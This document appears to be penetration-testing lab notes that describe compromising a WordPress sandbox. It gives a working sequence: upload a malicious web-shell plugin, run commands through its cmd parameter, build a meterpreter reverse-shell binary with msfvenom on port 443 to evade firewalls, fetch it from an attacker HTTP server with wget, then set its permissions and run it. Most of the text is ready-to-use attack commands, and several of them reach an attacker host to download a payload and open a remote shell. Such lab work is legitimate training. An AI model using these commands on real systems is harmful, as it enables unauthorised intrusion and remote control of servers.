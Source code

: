 
Database in running on `10.5.5.11`, different from what we are targeting. `10.11.1.250`

we can install our own plugins, there are some malicious wordpress plugins

in `seclis`： `cd /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php`

upload plugin and get error:
```
The package could not be installed. PCLZIP_ERR_BAD_FORMAT (-10) : Unable to find End of Central Dir Record signature
```

Search online, and find that I need to pack the php file to zip
```
zip bad_plugin.zip /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php
```
then upload 

fatal error when try to activate:
```
Plugin could not be activated because it triggered a fatal error.
```
it dont need to be activate 

test:
```
http://sandbox.local/wp-content/plugins/bad_plugin/plugin-shell.php?cmd=id
```
ok, it works, then we tries to generate a reverse shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.165 LPORT=443 -f elf > shell.elf
```
we know the target is a linux machine, we use LPORT=443 to evade any outbound firewall rules

then upload the shell to that machine, create a python sever at current directory

```
sudo python3 -m http.server 80
```
download the shell binary
```
curl http://sandbox.local/wp-content/plugins/bad_plugin/plugin-shell.php?cmd=wget%20http://192.168.119.165/shell.elf
```
use `%20` to replace space in url

start a listening port
```
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
> set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
> set LHOST 192.168.119.165;\
> set LPORT 443;\
> run"
```

execute the reverse shell, first check the permission
```
curl http://sandbox.local/wp-content/plugins/bad_plugin/plugin-shell.php?cmd=ls%20-l%20shell.elf
# change the permission
curl http://sandbox.local/wp-content/plugins/bad_plugin/plugin-shell.php?cmd=chmod%20777%20shell.elf
```
run
```
curl http://sandbox.local/wp-content/plugins/bad_plugin/plugin-shell.php?cmd=./shell.elf
```
